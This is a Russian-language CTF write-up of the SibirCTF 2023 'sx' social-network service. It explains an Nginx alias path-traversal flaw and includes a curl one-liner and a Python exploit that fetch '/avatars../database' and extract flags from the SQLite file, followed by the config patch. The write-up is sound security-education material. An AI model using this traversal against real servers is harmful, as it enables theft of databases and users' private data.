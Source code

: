 # SibirCTF (19.11.2023) Attack/Defense

---

Описания взяты из официальных репозиториев SibirCTF 2023:

Service: [sx](https://github.com/SibirCTF/2023-service-sibirctf-sx/tree/main)

> Эксплойты к сервисам написаны в качестве демонстрации экплуатации уязвимостей и не подойдут для реальных CTF в стиле Attack-Defense, но они могут быть, например, отличной основной для подготовки

***Happy Hacking!***

---

## Service 1: sx

### Описание сервиса

Сервис SX (South X) - это упрощенный аналог социальной сети X (ранее twitter). Посты (tweet'ы) могут быть как публичными, так и приватными. Прочитать публичные посты, можно через GET /posts/user/{user_id} или подписавшись на интересующих пользователей и получив свой feed через GET /feed/others.

Приватные посты видны только автору и тем пользователям, на которых он подписан. Чекер создает пользователя #1, складывает флаг в приватный пост и подписывается на пользователя #2. При проверке, пользователь #2 проверяет, что ему доступен флаг в приватном посте пользователя #1.

Сам сервис выглядит примерно следующим образом:

![ScreenShot](screenshots/1.png)

Можно заметить, что мы имеем доступ к некоторому набору параметров api, описанных через Swagger, что позволяет нам легко строить свои собственные запросы

![ScreenShot](screenshots/2.png)

---

### Vuln 1: Nginx alias path traversal

Уязвимость Nginx alias path traversal позволяет получить доступ не только к прописанной директории, но и выбраться из нее на один уровень вверх. Разбираемся:

В конфиге Nginx имеется следующие записи:

```sh
events { }

http {
  server {
    listen 3080;

    location / {
      proxy_pass http://sx-backend:3080;
    }

    location /avatars {
      alias /etc/data/avatars/;
    }
  }
}
```

Можно заметить, что вторая location-запись не имеет в конце представленного пути символа `/`, что явялется ключевым моментом для **path traversal**. Суть в том, что файлы для блоков с директивой alias отдаются через прикрепление запрошенного пути, после его сопоставления с маской из директивы location и вырезания заданной в этой маске части пути. 

В нашем случае атакующий может запросить файл "/avatars../database" и этот запрос подпадёт под указанную в location маску "/avatars", после чего остающийся хвост "../database" будет прикреплён к пути из директивы alias "/avatars" и в итоге будет запрошен файл "/avatars../database". Таким образом, атакующим может получить доступ к любым файлам в каталоге "/data" (как раз-таки он содержит в себе /avatars и /database), а не только к файлам в "/avatars/". Это и есть подъем на одну директорию выше.

Часть структуры контейнера для полного понимания вышеописанной концепции:

![ScreenShot](screenshots/3.png)

```python
import requests
import sqlite3


# URL, URI, IP
ip = "127.0.0.1"
url = f"http://{ip}:3080"
file_path = '/avatars../database'


# Функция для скачивания БД
'''
curl -X "GET" "http://localhost:3080/avatars../database" --output -
'''
def download_db(url, file_path, ip):
	# Реализуем запрос к файлу с БД
	resp = requests.get(url + file_path)

	# Если запрос прошёл удачно, то записываем содержимое запроса в файл
	if resp.status_code == 200:
		with open(f"D:/Projects/Attack-Defense-CTFs-Write-Ups/SibirCTF-2023/exploits/sx/databases/{ip}", "wb") as db_file:
			db_file.write(resp.content)
		return f"\033[32m[+] Status: OK, file {ip} was saved!\033[0m"
	else:
		return f"\033[31m[-] Status: Error, the server returned this status code - {resp.status_code}!\033[0m"


# Функция для прасинга флагов из скачанной БД
def parse_db(ip):
	# Подключаемся к файлу с БД
	conn = sqlite3.connect(f"D:/Projects/Attack-Defense-CTFs-Write-Ups/SibirCTF-2023/exploits/sx/databases/{ip}")
	array_list = []
	try:
		# Реализуем запрос на получение данных из таблицы post, где должны храниться флаги
		results = conn.execute("SELECT * FROM post ORDER BY created_at DESC LIMIT 100")
		
		# Парсим флаги и заносим их в отдельных массив, который возвращаем в качестве результата работы функции
		for row in results.fetchall():
			if 'flag' in row[3]:
				res = row[3].split('flag: ')[-1]
				array_list.append(res)
		return f"\033[32m[+] Successfully parsed DB: {array_list}\033[0m"
	except Exception as err:
		return f"\033[31m[-] Error: {err}\033[0m"


# Main
if __name__ == "__main__":
	print(download_db(url, file_path, ip))
	print(parse_db(ip))
```

Результат работы эксплойта:

![ScreenShot](screenshots/4.png)

### Vuln 1 - Patch

Чтобы предотвратить **path traversal** в директиве /avatars добавить `/` в конце указанного пути:

```sh
location /avatars/ {
    alias /etc/data/avatars/;
}
```

---


